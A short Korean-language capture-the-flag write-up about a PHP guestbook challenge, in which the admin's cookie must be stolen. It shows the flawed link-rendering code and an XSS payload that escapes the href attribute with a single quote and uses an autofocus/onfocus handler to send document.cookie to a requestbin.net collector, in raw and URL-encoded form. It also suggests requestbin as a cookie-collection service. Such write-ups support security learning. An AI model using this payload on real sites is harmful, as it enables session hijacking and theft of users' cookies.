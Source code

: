 # Guest book

php로 개발 중인 방명록 서비스이다.   
글을 쓰는 기능과, 오류가 발생하는 주소를 관리자가 확인할 수 있도록 하는 Report기능이 존재한다.   
관리자의 쿠키를 획득해야한다.   
<br/>

```
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  return $content;
}
?>
```
소스코드를 보면 get 방식으로 인자를 전달하고, 전달받은 값을 html entity 인코딩 한다.   
이후 [ ]안에 있는 값은 a태그의 text value 위치로, ( ) 안에 있는 값은 a 태그의 href 속성 값으로 대입된다.   
<br/>

## 웹 사이트 구조   
* GuestBook.php   


문자열을 입력하면 그대로 출력해준다.   
만약 [text](링크 url) 형태로 작성할 경우, a 태그로 변경해준다.   
<br/>

* Report.php


오류가 발생하는 페이지를 Report 하는 서비스가 구현되어있다.   
Report 시, admin 봇이 페이지를 조회한다.   
<br/>


## Exploit

a 태그 입력되는 부분에서 싱글쿼터(')를 이용하여 싱글쿼터 Escape를 시도할 수 있다.   
```
[test](' autofocus onfocus='location.href="http://requestbin.net/r/6mfow8d9?"+document.cookie' id=')
```
```
GuestBook.php?content=%5Btest%5D(%27%20autofocus%20onfocus%3D%27location.href%3D%22http%3A%2F%2Frequestbin.net%2Fr%2Fa8nl2frs%3F%22%2Bdocument.cookie%27%20id%3D%27)
```
<br/>

Cookie를 받을 내 서버가 없거나 아파치로 사용하기 번거로울 때 사용하면 좋은 사이트가 있다.   
### https://requestbin.net/
